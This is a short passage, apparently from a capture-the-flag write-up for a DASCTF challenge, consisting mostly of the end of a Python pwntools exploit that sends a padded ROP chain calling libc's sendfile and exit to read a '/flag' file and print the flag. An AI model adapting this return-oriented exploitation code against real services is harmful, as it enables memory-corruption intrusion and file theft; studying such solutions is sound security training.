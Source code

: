 ```python
        gadgets.rdx.address, 0, 0,
        gadgets.rcx.address, 0x50,
        libc.symbols['sendfile'],
    ], [
        gadgets.rdi.address, 0,
        libc.symbols['exit'],
    ])

    # stage 2 hack 3
    t.sendafter(b'Good luck', b'\0' * 0x100 + chain)
    sleep(0.125)
    t.send(b'/flag\0')

    t.recvuntil(b'{')
    flag = 'DASCTF{' + t.recvuntil(b'}').decode()
    success(f'Flag is: {flag}')
    t.close()
```

![flag](assets/stack_flag.png)
